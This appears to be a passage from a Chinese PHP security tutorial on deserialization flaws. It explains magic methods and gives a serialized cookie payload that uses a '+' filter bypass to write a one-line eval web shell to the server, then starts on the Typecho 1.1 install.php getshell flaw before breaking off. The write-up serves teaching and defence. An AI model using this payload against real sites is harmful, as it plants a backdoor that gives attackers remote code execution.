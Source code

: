 绕过了过滤以后，接下来考虑怎样对反序列化进行利用，反序列化本质是将序列化的字符串还原成对应的类实例，在该过程中，我们可控的是序列化字符串的内容，也就是对应类中变量的值。我们无法直接调用类中的函数，但PHP在满足一定的条件下，会自动触发一些函数的调用，该类函数，我们称为魔术方法。通过可控的类变量，触发自动调用的魔术方法，以及魔术方法中存在的可利用点，进而形成反序列化漏洞的利用。

在代码31行，对象销毁时会调用 **createCache()** 函数，函数将 `$template` 中的内容放到了 `$cacheFile` 对应的文件中。 **file_put_contents()** 函数，当文件不存在时，会创建该文件。由此可构造一句话，写入当前路径。

 `$cacheFile` 和 `$template` 为类变量，反序列化可控，由此，构造以下反序列化内容，别忘了加'+'号

![5](5.png)

放入cookie需进行URL编码

```php
a:1:{i:0;O:+8:"Template":2:{s:9:"cacheFile";s:10:"./test.php";s:8:"template";s:25:"<?php eval($_POST[xx]);?>";}}
```

文件成功写入：

![6](6.png)

## 实例分析

本次实例分析，选取的是 **Typecho-1.1** 版本，在该版本中，用户可通过反序列化Cookie数据进行前台Getshell。该漏洞出现于 **install.php** 文件 **230行** ，具体代码如下：

![7](7.png)
